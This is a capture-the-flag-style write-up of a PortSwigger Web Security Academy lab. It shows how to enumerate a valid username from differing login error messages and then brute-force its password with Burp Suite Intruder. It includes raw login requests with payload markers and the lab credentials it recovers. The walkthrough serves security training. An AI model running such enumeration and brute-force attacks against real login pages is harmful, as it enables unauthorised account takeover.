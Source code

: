 #+title: Username enumeration via different responses
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Lab contains
+ Vulnerable to username enumeration and paassword brute-force attack
+ Wordlist for username and password
* End Goal
+ Enumerate valid ~usename~ and ~password~ and login into their account.
* DONE Download given wordlist ~username~ & ~password~ files
CLOSED: [2023-07-31 Mon 17:40]
* DONE Enumerate username first
CLOSED: [2023-07-31 Mon 18:03]
+ Go to login page
+ Insert test login credential like username = ~test~ , password = ~test~
+ Intercept the request to ~burpsuite~
+ Observe the error message on invalid username.
+ Application giving error message ~Invalid username~
+ Go to burpsuite intruder and brute-force the ~username~ with given ~username~ wordlist and filterout by error message ~Invalid username~
+ In intruder of burpsuite
  #+begin_src shell
  POST /login HTTP/2
  Host: 0a3a00a7036b3e42800edace007a00e8.web-security-academy.net
  Cookie: session=dyDpQiTG4lyQZrjPkQUbfZRrqhXOeUtW
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 27
  Origin: https://0a3a00a7036b3e42800edace007a00e8.web-security-academy.net
  Dnt: 1
  Referer: https://0a3a00a7036b3e42800edace007a00e8.web-security-academy.net/login
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Sec-Gpc: 1
  Te: trailers

  username=§test§&password=test
#+end_src
+ So, Here is result from ~username~ enumeration. We can see that for invalid ~username~ it give a message ~Invalid username~. But for a particular ~username~ it gives a message ~Incorrect password~. So we can assume that it is the correct ~username~ but for that ~username~ it is incorrect ~password~
  [[./assets/screenshots/lab01-enum-username.png]]
  /So the username = ai/
  /Can be different on every new instance of lab/

* DONE Enumerate password for found username
CLOSED: [2023-07-31 Mon 18:21]
We found that username = ~ai~
+ Now brute-force same request but replace ~username=test~ with ~username=ai~ and brute-force ~password~ parameter
+ Use given password wordlist
#+begin_src shell
  POST /login HTTP/2
Host: 0ab80093032551e78032a44a005a0038.web-security-academy.net
Cookie: session=tDb3th4OBivAXgtGqBJruonwAvbtvDBK
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: https://0ab80093032551e78032a44a005a0038.web-security-academy.net
Dnt: 1
Referer: https://0ab80093032551e78032a44a005a0038.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers

username=ai&password=§test§
#+end_src

[[./assets/screenshots/lab01-enum-password.png]]

/For every payload it shows Incorrect password except one that is our correct password/

So, password for username ~ai~ is ~121212~

* DONE Solve the Lab
CLOSED: [2023-07-31 Mon 18:22]
Login with found credential to solve the lab
+ username = ~ai~
+ password = ~121212~
 
/Might be changed on every new instance of lab/
